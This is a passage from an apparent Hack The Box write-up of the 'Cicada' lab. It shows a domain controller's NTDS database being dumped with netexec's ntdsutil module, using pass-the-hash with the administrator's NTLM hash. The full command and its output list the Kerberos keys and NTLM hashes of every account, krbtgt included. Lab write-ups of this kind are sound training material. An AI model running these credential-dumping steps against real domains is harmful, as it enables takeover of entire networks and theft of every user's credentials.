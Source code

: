 ```
cicada.htb\michael.wrightson:aes256-cts-hmac-sha1-96:d89ff79cc85032f27499425d47d3421df678eace01ce589eb128a6ffa0216f46
cicada.htb\michael.wrightson:aes128-cts-hmac-sha1-96:f1290a5c4e9d4ef2cd7ad470600124a9
cicada.htb\michael.wrightson:des-cbc-md5:eca8d532fd8f26bc
cicada.htb\david.orelious:aes256-cts-hmac-sha1-96:125726466d0431ed1441caafe8c0ed9ec0d10b0dbaf4fec7a184b764d8a36323
cicada.htb\david.orelious:aes128-cts-hmac-sha1-96:ce66c04e5fd902b15f5d4c611927c9c2
cicada.htb\david.orelious:des-cbc-md5:83585bc41573897f
cicada.htb\emily.oscars:aes256-cts-hmac-sha1-96:4abe28adc1d16373f4c8db4d9bfd34ea1928aca72cb69362d3d90f69d80c000f
cicada.htb\emily.oscars:aes128-cts-hmac-sha1-96:f98d74d70dfb68b70ddd821edcd6a023
cicada.htb\emily.oscars:des-cbc-md5:fd4a5497d38067cd
[*] Cleaning up...

```

Not only do I get the administrator, but also all the users of the domain.

### NetExec

This can also be done with `netexec` using the `ntdsutil` module:

```

oxdf@hacky$ netexec smb 10.10.11.35 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -M ntdsutil
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)
NTDSUTIL    10.10.11.35     445    CICADA-DC        [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\173901502
NTDSUTIL    10.10.11.35     445    CICADA-DC        Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.10.11.35     445    CICADA-DC        [+] NTDS.dit dumped to C:\Windows\Temp\173901502
NTDSUTIL    10.10.11.35     445    CICADA-DC        [*] Copying NTDS dump to /tmp/tmpv0ix0245
NTDSUTIL    10.10.11.35     445    CICADA-DC        [*] NTDS dump copied to /tmp/tmpv0ix0245
NTDSUTIL    10.10.11.35     445    CICADA-DC        [+] Deleted C:\Windows\Temp\173901502 remote dump directory
NTDSUTIL    10.10.11.35     445    CICADA-DC        [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.10.11.35     445    CICADA-DC        Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
NTDSUTIL    10.10.11.35     445    CICADA-DC        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.10.11.35     445    CICADA-DC        CICADA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696:::
NTDSUTIL    10.10.11.35     445    CICADA-DC        krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3779000802a4bb402736bee52963f8ef:::
NTDSUTIL    10.10.11.35     445    CICADA-DC        cicada.htb\john.smoulder:1104:aad3b435b51404eeaad3b435b51404ee:0d33a055d07e231ce088a91975f28dc4:::
NTDSUTIL    10.10.11.35     445    CICADA-DC        cicada.htb\sarah.dantelia:1105:aad3b435b51404eeaad3b435b51404ee:d1c88b5c2ecc0e2679000c5c73baea20:::
NTDSUTIL    10.10.11.35     445    CICADA-DC        cicada.htb\michael.wrightson:1106:aad3b435b51404eeaad3b435b51404ee:b222964c9f247e6b225ce9e7c4276776:::
NTDSUTIL    10.10.11.35     445    CICADA-DC        cicada.htb\david.orelious:1108:aad3b435b51404eeaad3b435b51404ee:ef0bcbf3577b729dcfa6fbe1731d5a43:::
NTDSUTIL    10.10.11.35     445    CICADA-DC        cicada.htb\emily.oscars:1601:aad3b435b51404eeaad3b435b51404ee:559048ab2d168a4edf8e033d43165ee5:::
NTDSUTIL    10.10.11.35     445    CICADA-DC        [+] Dumped 9 NTDS hashes to /home/oxdf/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-08_064346.ntds of which 8 were added to the database
NTDSUTIL    10.10.11.35     445    CICADA-DC        [*] To extract only enabled accounts from the output file, run the following command: 
```